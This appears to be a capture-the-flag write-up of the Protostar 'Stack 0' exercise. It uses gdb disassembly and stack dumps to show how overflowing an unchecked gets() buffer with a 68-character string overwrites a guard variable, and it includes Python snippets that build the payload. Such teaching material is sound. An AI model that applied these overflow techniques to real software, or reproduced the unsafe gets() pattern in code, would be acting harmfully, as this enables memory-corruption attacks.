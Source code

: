 # Stack 0
## Tools used
- gdb (gef)
## Recon
We start off with what looks to be a simple Stack Overflow. Booting up gdb, let's see what we're working with
```shell
gef➤  info functions

File stack0/stack0.c:
5:	int main(int, char **);

Non-debugging symbols:
0x080482bc  _init
0x080482fc  __gmon_start__@plt
0x0804830c  gets@plt
0x0804831c  __libc_start_main@plt
0x0804832c  puts@plt
0x08048340  _start
0x08048370  __do_global_dtors_aux
0x080483d0  frame_dummy
0x08048440  __libc_csu_fini
0x08048450  __libc_csu_init
0x080484aa  __i686.get_pc_thunk.bx
0x080484b0  __do_global_ctors_aux
0x080484dc  _fini
```

The item of interest here is the function main. Let's set a breakpoint, run gdb, and then peek at the disassembly

```shell
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   ebp
   0x080483f5 <+1>:	mov    ebp,esp
   0x080483f7 <+3>:	and    esp,0xfffffff0
   0x080483fa <+6>:	sub    esp,0x60
=> 0x080483fd <+9>:	mov    DWORD PTR [esp+0x5c],0x0
   0x08048405 <+17>:	lea    eax,[esp+0x1c]
   0x08048409 <+21>:	mov    DWORD PTR [esp],eax
   0x0804840c <+24>:	call   0x804830c <gets@plt>
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret
End of assembler dump.
```

Here's the rundown:
- stack initialzation, alignment, and allocation
- storing hex 0 in a variable [esp+0x5c]
- storing the effective address of said variable into eax
- moving eax to the stack at [esp+0x1c] for the following:
- gets function call (naughty naughty)
- storing our [esp+0x5c] variable to the eax register
- testing eax against itself (bitwise and), should always set the zero flag since eax = [esp+0x5c] = 0
- jumps to memory location 0x08048427, pushes a string at memory location 0x8048529 to the stack in anticipation of the puts call
- puts (prints) whatever string is at the address 0x8048529 in the binary's data section


To reiterate, our variable [esp+0x5c] is initialized to 0 and there is nothing in this binary that will organically change [esp+0x5c]'s value. [esp+0x5c] will always set our eax register to zero meaning that when test eax,eax is called, the zero flag will always be set; we will always get sucked into the je <main+51> operation; we will always fail to reach the area in memory between 0x08048419 and 0x08048425
```shell
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
```
This right here is where we want to be, and that je call at 0x08048417 is gatekeeping us hard.

## Method

Here's what we need to do to avoid that je operation
- can patch out the binary like a coward
- can use the gets function call to overflow the stack, spilling into variable [esp+0x5c] which stops setting eax to 0 and the zero flag won't get set during the test operation

First let's get a better look at the stack:
```shell
gef➤  x/24w $esp
0xffffd180:	0xffffd19c	0xf7fc9694	0xf7ffd608	0x0
0xffffd190:	0xf7ffcff4	0x2c	0x0	0xffffdfcd
0xffffd1a0:	0xf7fc7550	0x0	0xf7da1a4f	0xf7fa2048
0xffffd1b0:	0xf7fc14b0	0xf7fd97cb	0xf7da1a4f	0xf7fc14b0
0xffffd1c0:	0xffffd200	0xf7fc1688	0xf7fc1b40	0x1
0xffffd1d0:	0x1	0x0	0x0	0x0
```
It's a little ugly but here's the first 24 hex dwords (4 bytes each) off our stack pointer (esp). We know that eax is at [esp+0x1c] and our 0 variable is at [esp+0x5c]. The difference between these 2 addresses is 0x40, or 64 in decimal. That means if we pass a string with 64 + 4 characters to the binary, we'll completely fill all 4 bytes of [esp+0x5c] (and everything in between it and eax). We can quickly generate a little script in the command line like:

```shell
python3 -c "print('A'*64)"
```

but if we vary the characters it will make more sense when I print the stack again in a second. 

```python3
str_ = ""
for i in range(17):
    str_ += (chr(ord('A') + i)) * 4
print(str_)
```

which gives us AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ. Let's plug that into our binary and take a look at what the stack looks like!

```shell
gef➤  x/24w $esp
0xffffd180:	0xffffd19c	0xf7fc9694	0xf7ffd608	0x00000000
0xffffd190:	0xf7ffcff4	0x0000002c	0x00000000	0x41414141
0xffffd1a0:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd1b0:	0x46464646	0x47474747	0x48484848	0x49494949
0xffffd1c0:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xffffd1d0:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0x51515151
```

As we can see, each collection of 4 bytes starting from the 0x41414141 (eax location) all the way to 0x51515151 ([esp+0x5c]) are the characters AAAA -> QQQQ.
We've successfuly overflowed the stack! Now our variable [esp+0x5c] (which should always be zero) has a value of 0x51515151 or QQQQ!

```shell
gef➤  x/s $esp+0x5c
0xffffd1dc:	"QQQQ"
```

This means that when test eax,eax is called, the zero flag won't be set, and the jump if equal condition will fail. Our code will continue running and we'll be rewarded with:

```shell
you have changed the 'modified' variable
```
